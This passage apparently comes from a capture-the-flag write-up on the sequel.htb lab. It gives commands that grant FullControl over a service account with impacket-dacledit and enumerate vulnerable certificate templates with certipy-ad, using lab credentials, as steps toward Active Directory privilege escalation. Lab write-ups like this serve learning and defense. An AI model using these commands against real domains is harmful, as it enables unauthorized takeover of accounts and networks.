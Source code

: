{% code overflow="wrap" %}
```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Now that we have the FullControl on a certificate publisher, enumerate Certificate Template in order to escalate privilege inside the domain.

First of all, enumerate certificate templates available and enabled and import ZIP output inside BloodHound:

{% code overflow="wrap" %}
```bash
certipy-ad find -enabled -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -dc-ip 10.10.11.51 -vulnerable -enabled -old-bloodhound
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

In the image below, we can see that the user “ca\_svc” is a member of the “Cert Publishers” group and has `GenericAll` rights for the `DUNDERMIFFLINAUTHENTICATION` template.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>
